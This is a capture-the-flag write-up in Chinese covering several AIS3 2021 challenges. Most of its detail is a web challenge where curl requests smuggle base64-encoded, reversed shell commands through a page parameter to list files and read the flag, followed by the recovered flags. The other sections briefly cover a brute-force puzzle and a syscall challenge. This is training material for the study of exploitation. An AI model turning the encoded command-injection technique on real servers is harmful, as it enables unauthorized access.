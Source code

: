```bash
curl 'http://10.153.11.126:8100/Index.php?page' -H "Host: magic.ais3.org:8100" -v
```

error 可以發現是 system

![image-20210523235715169](./img/image-20210523235715169.png)

可以透過如下方式進行編碼

``` bash
curl 'http://10.153.11.126:8100/Index.php?page='$(echo 'ls' |base64|rev) -H "Host: magic.ais3.org:8100" -v
```

之後獲取 flag

``` bash
curl 'http://10.153.11.126:8100/Index.php?page='$(echo 'cat /flag_c603222fc7a23ee4ae2d59c8eb2ba84d' |base64|rev) -H "Host: magic.ais3.org:8100" -v	
```

```
AIS3{0h!Why_do_U_kn0w_this_sh3ll1!1l!}
```



## Cat Slayer ᶠᵃᵏᵉ | Nekogoroshi (solved)

複雜度太小了，直接手工一個個 byte 爆破就可以了，可以多開幾個視窗延遲比較少，可以用貼上的減少手動輸入。

```
2025830455298

AIS3{H1n4m1z4w4_Sh0k0gun}
```

## Blind (solved)

 可以呼叫任意 syscall ，程式碼在最後會輸出 flag ，不過 stdout 被關閉了(`close(1);`)所以看不到 

嘗試觸發 SIGSEGV 這裡表示還是有 stderr 的回饋。

![image-20210522162424869](./img/image-20210522162424869.png)

